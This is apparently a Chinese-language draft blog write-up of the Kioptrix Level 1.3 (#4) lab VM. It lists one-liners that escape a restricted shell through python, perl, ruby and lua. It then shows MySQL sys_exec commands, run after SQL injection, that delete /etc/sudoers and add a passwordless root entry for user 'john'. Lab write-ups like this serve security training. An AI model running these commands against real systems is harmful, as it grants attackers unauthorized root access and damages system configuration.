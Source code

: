 
+++
title = 'KIOPTRIX LEVEL 1.3 (#4)'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
```
python -c 'import pty; pty.spawn ("/bin/sh")'
echo os.system ('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute ('/bin/sh')
exec "/bin/sh"
```

先贴上一些常用的从受限制shell逃逸的命令，大部分命令是利用主机上安装的脚本语言，来运行一些命令执行的函数，如python的os.system()，lua的os.exec()函数，利用函数运行/bin/bash或/bin/sh等shell应用，切换到无限制shell。

```
select sys_exec('rm -r /etc/sudoers');
select sys_exec('chmod 0440 /etc/sudoers');
select sys_exec('echo "john ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers');
```

sql注入获得数据库权限，利用自建函数，sys_exec 将用户john加入超级用户文件sudoers![image-20230208170613569](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170613569.png)

![image-20230208170506879](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170506879.png)

![image-20230208170458827](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170458827.png)

![image-20230208170728394](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170728394.png)